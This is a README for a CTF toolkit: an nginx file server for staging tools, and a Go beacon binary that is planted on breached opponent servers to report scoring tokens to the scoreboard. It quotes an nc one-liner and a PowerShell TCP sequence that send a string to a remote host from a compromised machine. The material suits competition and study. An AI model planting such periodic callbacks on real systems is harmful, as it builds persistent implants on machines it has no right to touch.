

# Oliver's Blueteam Toolkit


**This repo contains software I've written for the 2021 CrikeyCon Red vs Blue CTF. The 2 projects are the nginx toolkit and a beacon project for scoring points.**

## Nginx Toolkit

Because I wasn't certain there would be reliable or fast internet I wanted a way to load applications onto the server such as tools for patching software, antivirus and common tools like notepad++ and 7zip.

### Usage

#### Prerequisites

For this project to run all you need installed is `docker` and `docker-compose`

I build and tested this code on the versions below:

    Docker version 20.10.2
    docker-compose version 1.27.4

#### Starting the server

Run the server with a `docker-compose up --build`. This will launch the site on port 80.

#### Authentication

To stop other teams, and potentially other teammates from accessing this tool I added basic auth to nginx. It reads the credentials from the `nginx.htpasswd` file in the config directory. To generate new credentials run `htpasswd -c config/nginx.htpasswd admin`

#### Loading tools

I've stopped the tools from being commited to git with a `.gitignore` file but all you need to do is drag files or folders into the `toolkit/content` directory and reload the page in the nginx container for them to appear.

The beacons will automatically be added there when the build script is executed.

## Beacons (This has been removed in the current branch)

For the RvB CTF you need to breach one of the other teams severs and send a beacon to the scoreboard with a unique string over one of the designated ports. The example given for this CTF looked like this:

```
 Using nc to send from a Linux (or Windows) machine

echo "8a99597f-3d56-47d3-8eba-27f6128858e5" | nc 10.10.10.10 49164

Using PowerShell from a Windows machine

PS C:\> $port=49164
PS C:\> $remoteHost = "10.10.10.10"
PS C:\> $socket = new-object System.Net.Sockets.TcpClient($remoteHost, $port)
PS C:\> $stream = $socket.GetStream()
PS C:\> $writer = new-object System.IO.StreamWriter($stream)
PS C:\> $writer.WriteLine("8a99597f-3d56-47d3-8eba-27f6128858e5")
PS C:\> $writer.Flush()

If the beacon is successful you should get a "201" response.
On the scoreboard, you'll also see a small skull icon with your teams colour on it, againest the team who's server you've planted it on. Watch out for them!.
```

There was also this line at the end of the document

```
 Aside from using nc, or PowerShell to send your beacon, if you're smart enough and can wrap a beacon in your own Linux or Windows binary. Go for it! :)
```

So I wrote some Golang code to send the beacons and a couple of scripts to build the binaries for various platforms.

#### Code walkthrough

The code includes a list of beacon strings and a list of ports to send the beacons to. The binary will send one of the beacons to one of the ports randonly every 5 minutes.

You can change these paramaters in lines `12, 19 & 24`

#### Building the binaries

The `beacon/build.sh` and `beacon/clean.sh` scripts build the binaries for `Windows 64 bit, Windows 32 bit, Linux 64 bit, Linux 32 bit` platforms and clean them up.
